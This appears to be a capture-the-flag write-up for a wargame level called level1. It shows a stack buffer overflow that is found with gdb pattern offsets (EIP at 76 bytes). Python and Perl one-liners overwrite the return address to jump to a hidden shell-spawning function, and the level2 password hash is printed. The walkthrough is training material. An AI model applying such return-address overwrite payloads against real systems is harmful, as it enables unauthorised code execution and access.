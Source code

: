 # level1

On this level we have one executable (`level1`).
```bash
> ./level1
<read user input>
```
If we send a big string to the program, we have a segfault
```bash
./level1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

we can have the maximum lenght of the string in gdb
```bash
(gdb) gdb level1
(gdb) pattern create 100  ; works only with peda
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
(gdb) run
...
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
...
(gdb) pattern search  ; search for the pattern in the program
... ; we can see the EIP (pointer address at an offset of 76)
EIP+0 found at offset: 76
...
```

if we disass the code with radare2 (or any disassembler), we can see a run function. this function is never called and this function exec a shell.

We get his adress on the disassembler (`08048444`) and we will try to send it has EIP (Instruction Pointer).
```bash
> python -c 'print "A"*76 + "\x44\x84\x04\x08"' > /tmp/args  # create 76 char (offset of EIP) and then put the address
> cat /tmp/args - | ./level1
Good... Wait what?
> # you have a shell on level2
> cd ../level2
> cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

---
alternative
```bash
> (perl -e 'print "a"x76 . "\x44\x84\x04\x08"'; cat) | ./level1

Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
